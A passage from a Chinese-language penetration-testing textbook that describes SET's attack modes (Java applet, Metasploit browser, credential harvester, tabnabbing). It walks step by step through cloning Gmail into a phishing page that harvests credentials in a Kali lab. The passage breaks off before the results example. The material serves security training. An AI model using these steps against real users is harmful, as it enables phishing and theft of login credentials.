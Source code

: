 这里是一些攻击的描述：

+   Java 小程序攻击方法自动化了我们在 第十章 中使用的 Java 签名小程序攻击。

+   Metasploit 浏览器利用方法使你可以使用 Metasploit 的所有浏览器客户端攻击，而无需手动设置参数，也不需要了解 Metasploit 的语法。

+   凭据收集者攻击方法帮助创建网站，诱使用户交出他们的凭据信息。

+   Tabnabbing 攻击方法依赖于用户在浏览器中打开多个标签页的习惯。当用户第一次打开攻击页面时，它会显示“请稍等。”自然，用户会在等待期间切换回其他标签页。一旦攻击标签页不再处于焦点，它会加载攻击网站（可以是你喜欢的任何网站的克隆），目的是诱使用户提供其凭据或与恶意网站进行交互。假设用户会使用他遇到的第一个看起来合法的标签页。

选择选项 **`3`**，即 `凭据收集者攻击方法`。

接下来，你应该会看到一个提示，询问你想要选择什么类型的网站。我们可以从一些预构建的网站模板中选择，使用站点克隆器从互联网上克隆一个网站，或者使用自定义导入导入一个自定义网页。选择选项 **`1`** 来使用 SET 模板（参见 示例 11-12）。

示例 11-12. SET 网站模板选项

```
   1) Web Templates
   2) Site Cloner
   3) Custom Import
--*snip*--
  99) Return to Webattack Menu

set:webattack> **1**
```

现在输入网站的 IP 地址，以便将凭据发送回去。我们可以直接使用 Kali 虚拟机的本地 IP 地址，但如果你将此攻击用在客户端，你将需要一个面对互联网的 IP 地址。

```
IP Address for the POST back in Harvester: **192.168.20.9**
```

现在选择一个模板。因为我们想诱使用户输入凭据，所以选择一个带有登录字段的模板，比如 Gmail（选项 **`2`**），如 示例 11-13 所示。SET 现在应该会启动一个 Web 服务器，显示我们的假 Gmail 页面，这是实际 Gmail 页面的克隆。

示例 11-13. 设置网站

```
  1\. Java Required
  2\. Gmail
  3\. Google
  4\. Facebook
  5\. Twitter
  6\. Yahoo

set:webattack> Select a template: **2**

[*] Cloning the website: https://gmail.com
[*] This could take a little bit...
The best way to use this attack is if the username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```

现在浏览到克隆的 Gmail 网站，位于 Kali Linux Web 服务器上，并输入一些凭据以查看其工作原理。输入凭据后，你应该会被重定向到真实的 Gmail 网站。对于用户来说，似乎只是他输入密码时出错了。与此同时，回到 SET 中，你应该看到类似于 示例 11-14 的结果。

